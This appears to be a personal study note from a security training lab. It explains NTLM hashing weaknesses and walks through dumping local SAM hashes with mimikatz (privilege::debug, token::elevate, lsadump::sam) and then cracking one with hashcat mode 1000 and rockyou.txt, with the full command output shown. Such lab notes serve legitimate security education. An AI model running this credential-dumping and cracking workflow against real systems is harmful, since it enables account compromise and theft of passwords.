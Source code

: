 
# Cracking NTLM Hashes
On [Windows](../../computers/windows/README.md) machines passwords are [hashed](../../computers/concepts/cryptography/hashing.md) and stored in the [Security Account Manager](../../computers/windows/SAM.md)(SAM). Before being stored, passwords are hashed using [NTLM](../../networking/protocols/NTLM.md). Unfortunately, NTLM hashes are pretty insecure and an 8 character password can be *cracked within 2 hours*.
## NTLM Security
NTLM was created to replace the original protocol called LM. LM used DES which is known to be a very week algorithm. Additionally, LM was *case insensitive* which decreased the [Keyspace](password-cracking.md#Keyspace) making it easier to crack. 

NTLM hashes are more secure because they are *case sensitive* and use the *MD4* hashing algorithm. However, *they are not salted* (salting is when random bits are added to the beginning of a password before its hashed). Salting a password prevents it from being [brute-forced](../../cybersecurity/TTPs/cracking/brute-force.md) using a [rainbow-table](../../cybersecurity/TTPs/exploitation/rainbow-table.md).
## Getting the Hash
The SAM database file is located at `C:\Windows\system32\config\sam` and its contents can't just be copy pasted because Windows keeps a *file system lock* on it. Instead, we can use [Mimikatz](https://github.com/gentilkiwi/mimikatz).
### Finding Users to Impersonate
Before we use mimikatz, lets do some recon and find a user to impersonate. We can use `Get-LocalUser` in [powershell](../../coding/languages/powershell.md) to see a list of all of the users on the system:
```powershell
PS C:\Users\offsec> Get-LocalUser

Name               Enabled Description
----               ------- -----------
Administrator      False   Built-in account for administering the computer/domain
DefaultAccount     False   A user account managed by the system.
Guest              False   Built-in account for guest access to the computer/domain
nelly              True
offsec             True
WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
...
```
In the output, we see that there are two enabled users, `nelly` and `offsec`.
### Mimikatz
[mimikatz](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md) is a versatile Windows tool which can be used for password and hash attacks. One thing in particular it can do is extract password hashes *from the [LSASS](../../computers/windows/LSASS.md)* process's memory. LSASS, which runs with `SYSTEM` level privileges, caches NTLM hashes and other creds in its memory. We can use Mimikatz' *sekurlsa* module to extract them.

Because `lsass.exe` runs with `SYSTEM` level privileges, we need to run Mimikatz *as an Administrator* with the `SeDebugPrivilege` access right enabled. `SeDebugPrivilege` grants us the ability to *debug processes* we own as well as ones we don't own.
#### Starting Mimikatz
First, open powershell by running it as an administrator. Find the `mimikatz.exe` tool (usually you have to bring the executable onto the Windows system you've compromised) and run it with `.\mimikatz.exe`:
```powershell
PS C:\Windows\system32> cd C:\tools
PS C:\tools> ls
    Directory: C:\tools
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/31/2022  12:25 PM        1355680 mimikatz.exe

PS C:\tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```
Once you start it, it will give you a little repl shell thing. Now you can run mimikatz commands.
#### Enabling Privileges
There are a few commands for extracting passwords/tokens/hashes, etc. but a lot of them require the `SeDebugPrivilege` access right and `SYSTEM` level privileges. We can use `privilege::debug` to gain those:
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
#### Token Elevation Module
Now that we have `SYSTEM` privileges, we can access the LSASS. Mimikatz will allow us to do that via it's *[Token Module](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md#Token%20Module)*. This module allows Mimikatz to interact with Windows *authentication tokens* in the LSASS. With this module, mimikatz can grab tokens and then impersonate them. If we use `token::elevate`, we can impersonate another process/ user by elevating our token to theirs:
```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
Now we're impersonating `NT AUTHORITY\SYSTEM` built-in account.
#### Getting the Hash with `lsadump::sam`
Now we can dump tokens from the SAM and see if we can find a token for the `nelly` user we saw with `Get-LocalUser` before:
```powershell
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```
## Cracking the Hash
Now that we have the NTLM hash for the `nelly` user, we can bring it to our cracking rig and crack it. First, we need to put it into a file with a `.hash` extension. Then we can use [hashcat](../../cybersecurity/TTPs/cracking/tools/hashcat.md) to crack it:
### Find the Right Hash Mode
Assuming the hash we gathered is a regular NTLM hash we can find the hash mode for it like so:
```bash
hashcat --help | grep -i "ntlm"   
                                                                            
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
```
From the output, our hashmode is `1000`.
### Crack the Hash
Now we can run hashcat. For the wordlist we can use `rockyou.txt` and for the ruleset we can use `best64.rule`:
```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat (v6.2.5) starting
...
3ae8e5f0ffabb3a627672e1600f1ba10:nicole1                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 3ae8e5f0ffabb3a627672e1600f1ba10
Time.Started.....: Thu Jun  2 04:11:28 2022, (0 secs)
Time.Estimated...: Thu Jun  2 04:11:28 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 17926.2 kH/s (2.27ms) @ Accel:256 Loops:77 Thr:1 Vec:8
...
```
Hashcat has managed to crack the hash for the password `nicole1`. 

> [!Resources]
> - [Mimikatz Repo](https://github.com/gentilkiwi/mimikatz)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.